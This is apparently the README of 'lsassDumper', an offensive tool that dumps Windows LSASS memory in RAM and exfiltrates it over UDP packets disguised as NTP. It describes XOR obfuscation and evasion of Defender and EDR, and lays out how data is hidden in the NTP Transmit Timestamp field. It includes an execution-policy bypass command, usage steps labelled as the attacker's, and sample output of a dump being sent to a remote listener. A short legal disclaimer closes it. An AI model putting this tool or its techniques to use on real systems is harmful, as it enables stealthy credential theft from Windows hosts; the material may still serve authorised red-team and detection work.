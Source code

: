 <h1 align="center"> Project lsassDumper </h1>

## **🔍 Overview**
`lsassDumper` is an advanced tool designed to **stealthily dump the memory of the Windows process `lsass.exe`** and **exfiltrate** it using **UDP packets disguised as NTP requests**.  
Unlike traditional tools like **Mimikatz**, this tool performs all operations **in RAM**, avoiding detection by **Windows Defender, EDR, and forensic tools**.

The tool consists of:
- A **dumper** `memdump.c` to **extract LSASS memory** in RAM.
- A **sender** that transmits the **compressed dump over UDP (NTP packets)**.
- A **receiver** (`server.py`) that **reassembles the fragments** and **decompresses the memory dump**.

---

## **🛠 Features**
### **🔹 Process Identification**
- The **process name (`lsass.exe`) is obfuscated** in the source code using **XOR encoding** (`0x13` key) to **bypass static detection**.
- **Windows APIs (`CreateToolhelp32Snapshot`)** are used to **enumerate processes and extract the PID** dynamically.

### **🔹 Memory Dumping**
- Uses **MiniDumpWriteDump (from `DbgHelp.dll`)** to dump LSASS **directly into RAM**, **never touching the disk**.
- A **memory-mapped file** acts as a temporary buffer to minimize detection.

### **🔹 Compression (zlib)**
- The **dump is compressed in-memory** using `zlib` before transmission.
- This **reduces size** and makes the exfiltration **less detectable**.

### **🔹 Exfiltration via Fake NTP Packets**
- The **compressed dump is fragmented into small chunks** and sent via **UDP packets disguised as NTP traffic**.
- The **"Transmit Timestamp" field** of the NTP packet is **hijacked** to store **payload fragments**.

### **🔹 Receiver Script**
- A **Python-based receiver** (`receiver.py`) **listens on UDP 123 (NTP)**.
- It **reassembles the fragmented dump**, **decompresses** it, and **writes it to a file**.

---

## **📜 How NTP Packet Camouflage Works**
### **🔹 Normal NTP Packet Structure**
NTP (Network Time Protocol) packets typically contain **48 bytes**, with the last 8 bytes storing the **Transmit Timestamp**.  

```
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|LI | VN  |Mode|    Stratum     |     Poll      |  Precision   |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                     Root Delay (32-bit)                      |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                  Root Dispersion (32-bit)                    |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                    Reference ID (32-bit)                     |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                Reference Timestamp (64-bit)                  |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                 Originate Timestamp (64-bit)                 |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                  Receive Timestamp (64-bit)                  |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                 Transmit Timestamp (64-bit)                  | <-- Exfiltrated Data
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
```

### **🔹 How This Tool Abuses NTP**
- Instead of sending a **valid NTP Transmit Timestamp**, we **embed data in this field**.
- The **first packet** contains a **header**:
  - **4 bytes** → `total number of fragments` (big-endian)
  - **4 bytes** → `total compressed size` (big-endian)
- Each **subsequent packet** contains:
  - **4 bytes** → `fragment sequence number`
  - **4 bytes** → `data fragment`

This **allows memory dump exfiltration under the disguise of legitimate NTP traffic**.

---

## **🚀 Installation & Compilation**
### **🔹 Windows (PowerShell)**
 -- If you have vscode or else configured
 1. Run the following command:
   ```powershell
   Set-ExecutionPolicy Bypass -Scope Process -Force; ./run.ps1
   ```

---

## **🎯 Usage**
### **1️⃣ Run the Dumper (Attacker)**
On **Windows**:
```powershell
.\memdump.exe
```

You will be prompted to **enter the remote server IP and port** for exfiltration.

### **2️⃣ Run the Receiver (Listener)**
On the **attacker machine**, run:
```bash
python3 server.py
```
This will **listen on UDP port 123 (NTP)** and reconstruct the **exfiltrated dump**.

---

## **📌 Example Execution**
### **🟢 Attacker (Dumper)**
```
[*] Enter server IP: 192.168.1.100
[*] Enter server port: 123
[+] Process lsass.exe found with PID 1234
[+] Memory dump completed. Size: 16 MB.
[+] Compression completed. Compressed size: 512 KB.
[+] Header sent: 128 fragments, 512 KB total.
[+] Packet 1/128 sent.
...
[+] Transmission completed.
```

### **🟢 Receiver (Listener)**
```
[INFO] Listening on 0.0.0.0:123 (global timeout: 30s)
[INFO] Header received: 128 fragments, 512 KB compressed size.
[INFO] Receiving packets...
[Reconstitution] [========------] 50% (64/128)
[INFO] All fragments received.
[INFO] Decompressing...
[INFO] Dump saved as dump_memory.bin.
```

---

## **⚠️ Legal Notice**
🚨 **This tool is for EDUCATIONAL and AUTHORIZED TESTING ONLY.**  
Use this tool **only on systems you own or have explicit permission to test**.

---
